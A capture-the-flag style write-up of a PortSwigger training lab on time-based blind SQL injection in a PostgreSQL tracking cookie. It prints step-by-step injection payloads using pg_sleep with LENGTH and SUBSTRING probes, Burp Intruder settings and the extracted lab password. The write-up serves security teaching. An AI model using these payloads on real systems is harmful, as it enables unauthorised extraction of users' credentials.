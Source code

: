 
# Blind SQL injection with time delays and information retrieval

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

___

#blind_sql #time_delay #postgres_database

**NOTE:**
![screnshot](images/lab15_0.jpg)

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

step 1

`';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

`'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](images/lab15_1.jpg)

step 2
`';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

`'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 2 second then you will get 200 response

![screnshot](images/lab15_2.jpg)

step 3
`';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](images/lab15_3.jpg)

step 4
`';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](images/lab15_4.jpg)

step 5

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![screnshot](images/lab15_5.jpg)

![screnshot](images/lab15_6.jpg)

step 6

`';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
 TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

since we have two field so attack type set to Cluster bomb
payload 1 => number => 1 to 20
payload 2 => simple list => a-z and 0-9
Resource pool => 1 millisecond

![screnshot](images/lab15_7.jpg)

filter result with response time 

![screnshot](images/lab15_8.jpg)

`nu0go0r579x1l1rppjnz`

step 7

To solve the use username as `administrator` and password `nu0go0r579x1l1rppjnz`

![screnshot](images/lab15_9.jpg)